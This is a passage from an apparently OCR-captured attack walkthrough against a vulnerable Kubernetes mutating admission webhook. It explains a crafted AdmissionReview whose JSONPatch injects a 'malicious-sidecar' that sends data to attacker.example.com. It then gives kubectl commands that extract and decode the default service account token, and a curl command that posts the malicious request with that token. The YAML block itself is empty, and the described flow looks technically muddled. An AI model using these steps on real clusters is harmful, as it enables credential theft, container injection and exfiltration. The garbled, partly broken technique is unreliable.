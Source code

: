    ```yaml
   ```

   **Explanation:**

   *   `apiVersion` and `kind`:  Specify the API version and kind of the object.
   *   `request.uid`:  A unique identifier for the admission request.  Generate a UUID for this.
   *   `request.kind`, `request.resource`, `request.operation`:  Define the resource being created (a pod in this case) and the operation (CREATE).
   *   `request.object`:  The YAML definition of the pod being created. It should match the labels targeted by the vulnerable webhook.  Crucially, it does *not* contain the malicious sidecar.
   *   `response.allowed`:  Indicates that the request is allowed.
   *   `response.patchType`:  Specifies the type of patch being applied. `JSONPatch` is a standard format for modifying JSON objects.
   *   `response.patch`:  A JSONPatch that adds the malicious sidecar container to the pod specification. The `add` operation adds a new container to the `/spec/containers` array at the end.

   **Important:**

   *   Replace `<SOME_UNIQUE_ID>` with a generated UUID (e.g., using `uuidgen`).
   *   Replace `http://attacker.example.com` with the URL of your attack server that will receive the exfiltrated data.
   *   Adjust the `securityContext` of the `malicious-sidecar` as needed for your attack.  The example uses a restrictive context.

6.  **Get Service Account Token:**

    For this example, we will be using the service account token for authentication.

    ```bash
    TOKEN=$(kubectl get secrets -n default | grep default-token | awk '{print $1}')
    TOKEN_VALUE=$(kubectl get secret -n default $TOKEN -o jsonpath='{.data.token}' | base64 --decode)
    ```

    This gets the value of the `default` service account's token.

7.  **Send the Malicious Request:**

   Now, send the crafted `AdmissionReview` request to the webhook endpoint.  You will need the webhook service name, namespace, and path. These can be obtained using `kubectl describe mutatingwebhookconfiguration <webhook-name>`. The `clientConfig.service` contains the necessary information.

   ```bash
   WEBHOOK_SERVICE_NAME=example-webhook-service # Replace with the actual service name
   WEBHOOK_NAMESPACE=default # Replace with the actual namespace
   WEBHOOK_PATH=/mutate # Replace with the actual path
   WEBHOOK_HOST=$(kubectl get svc $WEBHOOK_SERVICE_NAME -n $WEBHOOK_NAMESPACE -o jsonpath='{.spec.clusterIP}')

   curl -k -X POST -H "Content-Type: application/json" -H "Authorization: Bearer $TOKEN_VALUE"  --data "@malicious-admission-review.yaml" "https://${WEBHOOK_HOST}${WEBHOOK_PATH}"
   ```

   **Explanation:**

   *   `curl`:  The command-line tool for making HTTP requests.
   *   `-k`:  Skips SSL certificate verification (necessary if the webhook uses a self-signed certificate).  **WARNING:**  This is insecure in a production environment.  You should properly configure the CA bundle in the `kubectl` command or the webhook configuration.
   *   `-X POST`:  Specifies the HTTP method as POST.
   *   `-H "Content-Type: application/json"`:  Sets the content type to JSON.
   *   `-H "Authorization: Bearer $TOKEN_VALUE"`:  Sets the Authorization Header to include the Service Account Token.
   *   `--data "@malicious-admission-review.yaml"`:  Sends the contents of the `malicious-admission-review.yaml` file as the request body.
   *   `"https://${WEBHOOK_HOST}${WEBHOOK_PATH}"`:  The URL of the webhook endpoint.
